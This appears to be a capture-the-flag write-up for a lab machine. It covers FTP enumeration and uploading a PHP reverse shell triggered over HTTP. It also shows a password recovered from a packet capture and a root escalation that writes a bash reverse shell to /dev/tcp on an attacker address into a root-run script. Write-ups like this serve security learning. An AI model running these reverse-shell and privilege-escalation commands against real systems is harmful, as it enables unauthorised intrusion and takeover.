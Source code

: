 ## Info
### Credential
- maya
- lennie:c4ntg3t3n0ughsp1c3


### FTP
- `notice.txt`
	- possible username: `maya`
- `important.jpg`
	- suffix `.jpg`, but it is a `.png` file
- `ftp`
	- writable and accessable from http


## Path
### User
1. Get the files from ftp://anonymous
2. Found `ftp` directory on FTP is writable and accessable from HTTP. Thus, we can upload a reverse shell from FTP, then execute it by visiting the file from HTTP.
```
# FTP
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Jul 01 07:11 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> put rev.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
121 bytes sent in 0.000169 seconds (699 kbytes/s)

# HTTP
$ curl 10.10.21.106/files/ftp/rev.php

# Reverse shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
3. Under `/`, there is a `recipe.txt`, which has the answer of thr first problem.
4. Under `/incidents`, there is a `suspicious.pcapng`. The file includes the trace of another get-shell attackers attempt steps, and it reveals the password `c4ntg3t3n0ughsp1c3`. After attempting, this password is belong to lennie.
5. `su lennie` to become lennie and get user flag.
### Root
6. Found `/home/lennie/scripts/planner.sh` looks suspicious, may be running by root. Since `/etc/print.sh` is wriable, put a indicator in it to see if it is running by root. And it turns out to be true. So we can use this to become root.
```
lennie$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie$ echo 'echo Running by $(whoami) > /tmp/a' > /etc/print.sh
lennie$ cat /tmp/a
Running by root
```
7. Put a reverse shell in `/etc/print.sh` and get shell.
```
lennie$ echo 'bash -c "bash -i >& /dev/tcp/10.9.5.135/13338 0>&1"' > /etc/print.sh
```

